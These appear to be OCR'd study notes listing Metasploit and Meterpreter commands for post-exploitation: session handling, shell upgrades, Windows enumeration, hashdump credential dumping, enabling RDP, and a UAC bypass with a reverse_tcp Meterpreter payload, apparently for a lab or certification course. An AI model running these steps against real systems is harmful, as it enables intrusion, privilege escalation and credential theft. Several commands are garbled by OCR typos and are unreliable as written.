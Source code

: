 ## Post Exploitation Fundamentals
### Meterpreter Fundamentals
- service postgresql start
- db_nmap -sS -sV -O <target-ip >
- sysinfo
- ge tuid
- sessions -C 'sysinfo' -i 1 command execution
- session -k 1 KILL
- sessiona -n xoda -i 1
- download flag.zip
- checksum md5 /bin/bash
- getenv PATH
- get env TERM
- search -d /usr/bin -f *<file-name>*
- search -f *.jpg
- shell
- ps
- migrate <ps-id>
- getuid for enumeration of current user

### Upgrading Command Shell into Meterpreter shell
- module shell_to_ meterprerter
- service postgresql start
- msfconsole
- workspace upgrading-shell
- sessions -h- sessions -u 1  To upgrade shell to meterpreter


## Post Exploitation Of Windows
- getsystem For priviliges Escalation
- service postgresql start
- migrate, download, upload search, hashdump
- search win_privs
- search enum_logged_on
- search checkvm
- search enum_applications
- loot
- search type:post platform:windows enum_av- search enum_computer
- search enum_patches
- mannual of above meterpreter
- shell
- systeminfo
- search enum_shares
- search rdp platform:windows
- use enable_rdp

## Windows Privileges Escalation
### Bypassing UAC: Memory Injection
- service postgresql start
- workspace -a UAC
- nmap search and exploit
- set payload windows/x64/meterpreter/reverse_tcp
- getsystem for Priviliges escalation
- getprivs to get current user privileges
- shell, net user, net localgroup administrators- net user group Administrator
- search bypassuac_injection
- set payload windows/x64/meterpreter/reverse_tcp
- use set run
- set target windows\ x64
- getsystem